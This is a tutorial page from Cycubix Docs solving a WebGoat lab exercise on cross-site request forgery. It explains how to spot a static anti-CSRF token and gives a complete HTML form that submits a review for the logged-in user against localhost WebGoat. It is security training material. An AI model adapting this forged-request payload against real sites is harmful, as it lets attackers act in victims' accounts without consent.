

# A10:2021 | Server Side Request Forgery | Cross Site Request Forgery (4) | Cycubix Docs

### Post a review on someone else’s behalf <a href="#post_a_review_on_someone_elses_behalf" id="post_a_review_on_someone_elses_behalf"></a>

The page below simulates a comment/review page. The difference here is that you have to initiate the submission elsewhere as you might with a CSRF attack and like the previous exercise. It’s easier than you think. In most cases, the trickier part is finding somewhere that you want to execute the CSRF attack. The classic example is account/wire transfers in someone’s bank account.

But we’re keeping it simple here. In this case, you just need to trigger a review submission on behalf of the currently logged in user.

<figure><figcaption></figcaption></figure>

**Solution**

* Hints: Again, you will need to submit from an external domain/host to trigger this action. While CSRF can often be triggered from the same host (e.g. via persisted payload), this doesn't work that way. Remember, you need to mimic the existing workflow/form. This one has a weak anti-CSRF protection, but you do need to overcome (mimic) it.&#x20;
* We will start by submitting a comment and analyzing the request on ZAP and with the developer tools.&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* As we can see, there is a new parameter added named "validateReq", which is a static value. So when we create our html script we need to take this into consideration. Also, we can see in the POST request the end point, the header, etc. This information we will use it in our payload, in accordance with the request parameters.&#x20;
* The code will have this content: :

```
<html>
  <body>
    <form action="http://localhost:8080/WebGoat/csrf/review" method="post" enctype="application/x-www-form-urlencoded; charset=UTF-8">
      <input name="reviewText" value="review" type="hidden">
      <input name="stars" value="5" type="hidden">
      <input name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9" type="hidden">
      <input type="submit" value="Submit">
    </form>
  </body>
</html>
```

* Open up the html file on your server and hit submit. Check that your comment was posted:&#x20;

<figure><figcaption></figcaption></figure>

